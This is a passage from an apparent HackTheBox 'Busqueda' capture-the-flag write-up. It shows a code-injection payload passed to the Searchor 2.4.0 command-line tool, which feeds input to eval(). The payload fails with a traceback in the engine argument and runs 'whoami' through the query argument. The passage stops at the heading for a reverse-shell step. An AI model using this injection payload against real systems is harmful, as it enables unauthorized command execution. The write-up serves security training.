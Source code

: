 ```bash
(myenv) 0hmsec@kali:-$ searchor search "' + __import__('os').popen('whoami').read() + '" Laptop

Traceback (most recent call last):
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/bin/searchor", line 8, in <module>
    sys.exit(cli())
             ^^^^^
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/lib/python3.12/site-packages/click/core.py", line 1161, in __call__
    return self.main(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/lib/python3.12/site-packages/click/core.py", line 1082, in main
    rv = self.invoke(ctx)
         ^^^^^^^^^^^^^^^^
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/lib/python3.12/site-packages/click/core.py", line 1697, in invoke
    return _process_result(sub_ctx.command.invoke(sub_ctx))
                           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/lib/python3.12/site-packages/click/core.py", line 1443, in invoke
    return ctx.invoke(self.callback, **ctx.params)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/lib/python3.12/site-packages/click/core.py", line 788, in invoke
    return __callback(*args, **kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/hackthebox/machines/Linux/Busqueda/myenv/lib/python3.12/site-packages/searchor/main.py", line 32, in search
    url = eval(
          ^^^^^
  File "<string>", line 1
    Engine.' + __import__('os').popen('whoami').read() + '.search('Laptop', copy_url=False, open_web=False)
           ^^^^^^^^^^^^^^^^
SyntaxError: invalid syntax
```

When we try it with the "ENGINE" argument it throws a syntax error. So, let's try it with the "QUERY" argument.

```bash
(myenv) 0hmsec@kali:-$ searchor search Amazon "' + __import__('os').popen('whoami').read() + '"
https://www.amazon.com/s?k=0hmsec%0A
```

Now the attack succeeds. We have a successful local code execution in Searchor 2.4.0 in the "QUERY" argument.

### T1210: Exploitation of Remote Services
#### Shell as svc

I am going to showcase two methods in which you can get a reverse shell for this vulnerability.
